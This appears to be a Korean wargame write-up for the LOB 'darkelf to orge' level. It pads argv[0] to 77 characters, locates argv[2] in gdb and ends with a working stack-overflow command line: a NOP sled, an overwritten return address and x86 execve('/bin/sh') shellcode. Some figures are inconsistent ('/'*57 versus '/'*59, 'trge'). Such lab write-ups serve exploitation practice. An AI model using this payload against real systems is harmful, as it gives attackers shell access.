 #week2  
##lob  
###darkelf_to_orge  
orge.c를 분석하면 here is changed!라는 부분에서 argv[0]을 77로 맞추라는 것을 확인가능하다.  
조금 늦었지만 argv는 argum ents vector로서 가변적인 개수의 문자열이라고 한다... 솔직히 뭔 말인지 ㅎㅎ    
검색을 더 해보면 argv[0]은 실행 파일명이 저장된다고 한다 호오옹  
즉 실행 파일명의 길이를 77로 맞추라는 것으로 보입니다.  
77로 맟추려고 다 넣어보다 gdb -q $(python -c 'print("./"+"/"*57+"trge")') 이런 식으로 gdb를 실행했다.  
77을 계산해보면 "./"2자 "/home/darkelf/"이렇게 14자 "orge"4자 이니까 "/"로 나머지 57자를 채워준다.    
이제 앞에서 했듯이 strcpy가 call된 후인 main+283에 브레이크를 걸고 실행한 다음 argv[2]의 주소를 얻는다.    
argv[2]의 주소는 0xbffffbb8인 것을 알 수 있다.    
이제 아래와 같은 명령어로 key를 획득가능하다.  
명령어의 앞쪽은 77를 맞춰주는 모습이고 그 뒤로는 동일하다.    
 $(python -c 'print("/home/darkelf/"+"/"*59+"orge"+" "+"\x90"*44+"\xb8\xfb\xff\xbf"+" "+"\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")') 


